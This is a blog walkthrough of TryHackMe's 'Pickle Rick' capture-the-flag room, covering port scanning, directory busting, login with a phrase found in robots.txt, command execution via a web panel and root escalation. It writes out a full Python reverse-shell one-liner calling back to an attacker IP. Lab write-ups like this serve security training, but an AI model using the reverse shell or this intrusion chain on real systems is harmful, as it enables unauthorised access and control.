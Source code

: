 ```yaml
---
title: TryHackMe - Pickle Rick CTF
excerpt: Follow along with this "Easy" rated box on TryHackMe to save Pickle Rick.
date: '2021-10-27'
thumb_img_path: /images/o9pyhyU.jpg
thumb_img_alt: Icelandic horses
content_img_path: /images/Banner.png
content_img_alt: Icelandic horses
seo:
  title: Pickle Rick Walkthrough - Easy
  description: Easy To Follow Walkthrough of TryHackMe's Pickle Rick CTF
  extra:
    - name: 'og:type'
      value: article
      keyName: property
    - name: 'og:title'
      value: Pickle Rick CTF Walkthrough - Easy
      keyName: property
    - name: 'og:description'
      value: Easy To Follow Walkthrough of TryHackMe's Pickle Rick CTF
      keyName: property
    - name: 'og:image'
      value: /images/o9pyhyU.jpg
      keyName: property
      relativeUrl: true
    - name: 'twitter:card'
      value: summary_large_image
    - name: 'twitter:title'
      value: Pickle Rick CTF Walkthrough - Easy
    - name: 'twitter:description'
      value: Easy To Follow Walkthrough of TryHackMe's Pickle Rick CTF
    - name: 'twitter:image'
      value: /images/o9pyhyU.jpg
      relativeUrl: true
layout: post
---
```

TryHackMe - Pickle Rick CTF: [https://tryhackme.com/room/picklerick](https://tryhackme.com/room/picklerickTryHackMe)

This box is listed as Easy .  All three ingredients can be discovered easily from your browser and without using any tools, but for this walkthrough I will be using:

`NMAP DIRBUSTER NETCAT`

I will try to provide alternative guidance where applicable.

# ENUMERATION

First, let's start by pinging the machine and making sure we're able to connect.

![](/images/ping.png)

Everything looks good, so let's try to see which ports we have available.  I'll be using NMAP to perform this scan:

`sudo nmap -sN -Pn 10.10.19.153`
`-sN -- TCP Null scan`
`-Pn -- Treats all hosts as online / skip host discovery`

![](/images/nmap.png)

We can see we have port 22 and port 80 open.  Let's curl the IP and see what we get back.

![](/images/a_curl_port\_80.png)

Nothing really stands out at first.  We can see we have a /assets/ directory we may be able to use later.  If we scroll down, however, we see a comment left by Rick, which gives us the Username.  We'll note this username, and be on the lookout for a login page.

Alternatively, we can navigate to \[TARGET_IP]:80, and inspect source there to get the same:

![](/images/a_inspect_source.png)

Before we jump to directory hunting, let's check for a robots.txt to get any more intel:

![](/images/a_curl_robots.png)

Curl returns a seemingly nonsense phrase that will be important later, and I have purposely blurred.  For now, we do not know its significance though.

Let's do some directory busting.  I'll be using DirBuster, and I'll be using a small wordlist that comes pre-installed in Parrot and Kali.  I'll input the target IP, as well as the file path to my list:

![](/images/dirbuster.png)

After letting the scan run for a few moments, we have some interesting results:

![](/images/a_dirbuster_return.png)

We can see both a /login.php and  a /portal.php which are interesting.  Let's navigate to the login page.

# FOOTHOLD

![](/images/login.png)

We know the Username from our notes of the HTML comment on the home page, but we don't know the password.  A quick trial of usual passwords doesn't work.  We can try a sniper attack in BurpSuite, but what about the text in /robots.txt?  Let's try that.

![](/images/command.png)

Awesome, that worked, and now we're in.  Let's check the page source for any hidden comments or bread crumbs:

![](/images/a_portal_source.png)

Nothing seems to stand out aside from the comment which appears to be Base64 encoded.  Let's make note of that and go back to /portal.php.  Let's try out a few commands we know, and see if that gets us anywhere.

![](/images/whoami.png)![](/images/ls.png)

After some trial and error, we can see that we're seemingly giving commands to a Linux machine.  We can see a 'clue.txt' and 'Sup3rS3cretPickl3Ingred.txt' in our current directory, so let's try to cat the ingredient.

![](/images/cat.png)

Ok.  That didn't work, but we have more options.  Let's wget the files and have them locally if we need them later.![](/images/wget.png)

From here, we can cat the files and see what they contain:

![](/images/a_first_ingred.png)

Awesome, we have the first ingredient as well as a hint for how to find the rest.

Alternatively, we would have been able to 'less' the .txt files and gotten their contents in the browser:

![](/images/a_less_first.png)![](/images/less_clue.png)

# REVERSE SHELL

At this point, we can continue to issue commands to the web browser panel.  However, for practice and ease of use, I chose to implement a reverse shell.  I started netcat on my machine, and listened on port 4444 (an arbitrary port).  I then issued the command

`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("\[YOUR IP]",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"]);'`

on the control panel, and was able to spawn the reverse shell:

![](/images/a_shell_open.png)

Now we can explore the machine and look for our next ingredient:

![](/images/a_shell_second.png)

# PRIVILEGE ESCALATION

Awesome.  That's the second ingredient, and we only have one left.  Unfortunately, the last one needs root access, so let's practice our privilege escalation.  I'll use another python script to sudo bash:

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

Now we can cd to /root, and get into the third ingredient:

![](/images/a_shell_last.png)

That's it! We got all three ingredients.  Enter them for your points, and I'll see you in the next room.
